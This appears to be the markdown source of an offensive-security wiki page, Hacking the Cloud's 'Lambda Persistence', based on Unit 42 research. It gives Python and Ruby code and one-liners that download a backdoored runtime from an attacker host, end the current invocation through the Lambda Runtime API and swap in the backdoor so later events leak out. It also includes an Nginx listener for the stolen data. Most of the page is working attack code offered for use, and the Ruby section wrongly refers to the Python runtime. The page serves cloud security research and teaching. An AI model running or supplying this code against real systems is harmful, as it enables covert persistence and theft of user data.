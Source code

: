 ```yaml
---
author: "Nick Frichette"
title: "Lambda Persistence"
description: "How to establish persistence on a Lambda function after getting remote code execution."
enableEditBtn: true
editBaseURL: https://github.com/Hacking-the-Cloud/hackingthe.cloud/blob/main/content
---
```

Original Research: [Yuval Avrahami](https://twitter.com/yuval_avrahami)
Link to Research: [Unit 42: Gaining Persistency on Vulnerable Lambdas](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)
Additional Reading: [Revisiting Lambda Persistence](https://frichetten.com/blog/revisiting_lambda_persistence/)

{{< notice warning "Note" >}}
Depending on the specific runtime and tools available, you will likely have to change the approach taken to gain persistence in a Lambda function. The general concepts should serve as a guide for a more specific attack you develop.
{{< /notice >}}

After finding a remote code execution vulnerability in a Lambda function, you'll probably want to establish persistence. The steps to do this will depend on the specific runtime that is being used by the Lambda function. Below the Python and Ruby runtimes are used as an example.

{{< notice warning "Note" >}}
See the "Creating a Listener" section at the bottom of this page for how to setup a listener for exfiltrated data.
{{< /notice >}}

## Python Runtime

After identifying that your target is using the Python runtime, you'll need a copy of the `/var/runtime/bootstrap.py` file. You can get this by either creating your own Lambda function and copying it, or by leaking it from the target Lambda function.

Next, you'll want to modify this runtime with some logic to backdoor it. This can be simply done with a few lines such as the following:

![Python - Backdoored Lambda Bootstrap File](/images/aws/persistence/lambda_persistence/python_backdoor_bootstrap.png)

{{< notice success "Note" >}}
You can customize what the backdoor does, depending on what you're looking to do. Maybe you want to leak a specific user's data. Maybe you just want Cookies. It's up to you!
{{< /notice >}}

With the `bootstrap.py` file backdoored, you'll want to host it in a location that is accessible for the Lambda function to pull down. 

The next step is creating a one-liner to pull down this modified code, as well as to terminate the current event in the [Runtime API](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-api.html). This can be done by posting to a specific endpoint with the current request ID. All together, that code should look something like this:

```
import urllib3
import os
http = urllib3.PoolManager()

# Writing the new bootstrap to a file
r = http.request('GET', 'https://evil.server/bootstrap.py')
w = open('/tmp/bootstrap.py', 'w')
w.write(r.data.decode('utf-8'))
w.close()

# Getting the current request ID
r = http.request('GET', 'http://127.0.0.1:9001/2018-06-01/runtime/invocation/next')
rid = r.headers['Lambda-Runtime-Aws-Request-Id']

# End the current event
http.request('POST', f'http://127.0.0.1:9001/2018-06-01/runtime/invocation/{rid}/response', body='null', headers={'Content-Type':'application/x-www-form-urlencoded'})

# Swap the runtimes
os.system('python3 /tmp/bootstrap.py')
```

Or as a long one-liner (don't forget to change the hostname):

```
python3 -c "import urllib3;import os;http = urllib3.PoolManager();r = http.request('GET', 'https://evil.server/bootstrap.py');w = open('/tmp/bootstrap.py', 'w');w.write(r.data.decode('utf-8'));w.close();r = http.request('GET', 'http://127.0.0.1:9001/2018-06-01/runtime/invocation/next');rid = r.headers['Lambda-Runtime-Aws-Request-Id'];http.request('POST', f'http://127.0.0.1:9001/2018-06-01/runtime/invocation/{rid}/response', body='null', headers={'Content-Type':'application/x-www-form-urlencoded'});os.system('python3 /tmp/bootstrap.py')"
```

From here on, all subsequent events should be leaked to the attacker. Remember that if the Lambda function is not used for 5-15 minutes, it will become "cold" and you will lose access to the persistence you've established. You can execute the function again to keep it "warm" or you can simply reestablish persistence.

## Ruby Runtime

After identifying that your target is using the Python runtime, you’ll need a copy of the `/var/runtime/lib/runtime.rb` file. You can get this by either creating your own Lambda function and copying it, or by leaking it from the target Lambda function.

Next, you’ll want to modify this runtime with some logic to backdoor it. This can be simply done with a few lines such as the following:

![Ruby - Backdoored Lambda Bootstrap File 1](/images/aws/persistence/lambda_persistence/ruby_backdoor_bootstrap_1.png)

![Ruby - Backdoored Lambda Bootstrap File 2](/images/aws/persistence/lambda_persistence/ruby_backdoor_bootstrap_2.png)

With the `runtime.rb` file backdoored, you’ll want to host it in a location that is accessible for the Lambda function to pull down. Note, you'll likely want to rename it to something like `run.rb`. This is because you'll want to create a symbolic link between everything in `/var/runtime/lib` to `/tmp`. This will ensure your modified `runtime.rb` file can access all the additional libraries it needs.

The next step is creating a one-liner to create those symbolic links, pull down this modified code, and execute it as well as to terminate the current event in the [Runtime API](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-api.html). This can be done by posting to a specific endpoint with the current request ID. All together, that code should look something like this:

```
require 'net/http'

# Writing the new runtime to a file
uri = URI('https://evil.server/run.rb')
r = Net::HTTP.get_response(uri)
File.write('/tmp/run.rb', r.body)

# Getting the current request ID
uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/next')
r = Net::HTTP.get_response(uri)
rid = r.header['Lambda-Runtime-Aws-Request-Id']

# End the current request
uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/'+rid+'/response')
Net::HTTP.post(uri, 'null')
```

Or as a long one-liner (don’t forget to change the hostname, create the symbolic links, or execute the code in the background):

```
ln -s /var/runtime/lib/* /tmp && ruby -e "require 'net/http';uri = URI('https://evil.server/run.rb');r = Net::HTTP.get_response(uri);File.write('/tmp/run.rb', r.body);uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/next');r = Net::HTTP.get_response(uri);rid = r.header['Lambda-Runtime-Aws-Request-Id'];uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/'+rid+'/response');Net::HTTP.post(uri, 'null')" && ruby /tmp/run.rb &
```

From here on, all subsequent events should be leaked to the attacker. Remember that if the Lambda function is not used for 5-15 minutes, it will become “cold” and you will lose access to the persistence you’ve established. You can execute the function again to keep it “warm” or you can simply reestablish persistence.

## Creating a Listener

How you receive leaked events is up to you. The author found that the simplest way was via post requests to an Nginx server. The configuration was simple. First, outside of the server block, include a line like `log_format postdata $request_body`.

Next, include the following inside the server block:

```
location = /post {
    access_log /var/log/nginx/postdata.log postdata;
    proxy_pass http://127.0.0.1/post_extra;
}
location = /post_extra {
    access_log off;
    return 200;
}
```

After restarting Nginx, all logs received via post requests should be stored in `/var/log/nginx/postdata.log`.